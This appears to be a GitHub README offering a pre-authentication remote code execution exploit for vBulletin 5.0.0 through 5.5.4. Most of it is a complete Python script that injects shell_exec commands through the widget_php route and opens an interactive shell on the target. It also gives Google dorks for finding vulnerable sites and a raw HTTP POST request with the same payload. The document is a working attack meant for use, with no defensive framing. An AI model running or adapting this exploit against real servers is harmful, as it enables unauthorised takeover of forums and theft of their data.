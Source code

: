 # vBulletin-5.x-0day-pre-auth-RCE-exploit

影响版本：vBulletin 5.0.0~5.5.4


poc如下:

#!/usr/bin/python

#

# vBulletin 5.x 0day pre-auth RCE exploit

#

# This should work on all versions from 5.0.0 till 5.5.4

#

# Google Dorks:

# - site:*.vbulletin.net

# - "Powered by vBulletin Version 5.5.4"

import requests

import sys

if len(sys.argv) != 2:

   sys.exit("Usage: %s <URL to vBulletin>" % sys.argv[0])

params = {"routestring":"ajax/render/widget_php"}

while True:

    try:

         cmd = raw_input("vBulletin$ ")

         params["widgetConfig[code]"] = "echo shell_exec('"+cmd+"'); exit;"

         r = requests.post(url = sys.argv[1], data = params)

         if r.status_code == 200:

              print r.text

         else:

              sys.exit("Exploit failed! :(")

    except KeyboardInterrupt:

         sys.exit(" Closing shell...")

    except Exception, e:

         sys.exit(str(e))






POST / HTTP/1.1

Host: *

Content-Type: application/x-www-form-urlencoded

Content-Length: 108

routestring=ajax%2Frender%2Fwidget_php&widgetConfig%5Bcode%5D=echo+shell_exec%28%27ifconfig%27%29%3B+exit%3B

